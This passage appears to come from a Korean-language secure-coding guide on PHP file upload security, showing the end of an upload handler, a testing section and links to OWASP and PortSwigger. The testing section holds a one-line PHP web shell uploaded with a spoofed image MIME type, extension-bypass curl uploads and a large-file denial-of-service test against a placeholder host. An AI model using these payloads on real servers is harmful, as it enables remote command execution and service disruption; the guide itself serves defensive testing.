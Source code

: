 ```php

if ($result['success']) {
    echo "파일 업로드 성공: " . $result['filename'];
} else {
    echo "업로드 실패: " . $result['error'];
}
?>
```

## 🧪 테스트 방법

### 1. 악성 파일 업로드 테스트

```bash
# 다양한 확장자로 테스트
curl -F "file=@shell.php" http://target.com/upload.php
curl -F "file=@shell.php.jpg" http://target.com/upload.php
curl -F "file=@shell.phtml" http://target.com/upload.php
```

### 2. MIME 타입 우회 테스트

```python
import requests

# MIME 타입을 조작하여 업로드 시도
files = {
    'file': ('shell.php', '<?php system($_GET["cmd"]); ?>', 'image/jpeg')
}
response = requests.post('http://target.com/upload.php', files=files)
```

### 3. 파일 크기 제한 테스트

```bash
# 대용량 파일로 DoS 공격 시도
dd if=/dev/zero of=large_file.txt bs=1M count=1000
curl -F "file=@large_file.txt" http://target.com/upload.php
```

## 📚 참고 자료

### 공식 문서
- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [PHP File Uploads Security](https://www.php.net/manual/en/features.file-upload.php)

### 보안 가이드
- [PortSwigger File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [SANS File Upload Security](https://www.sans.org/white-papers/)
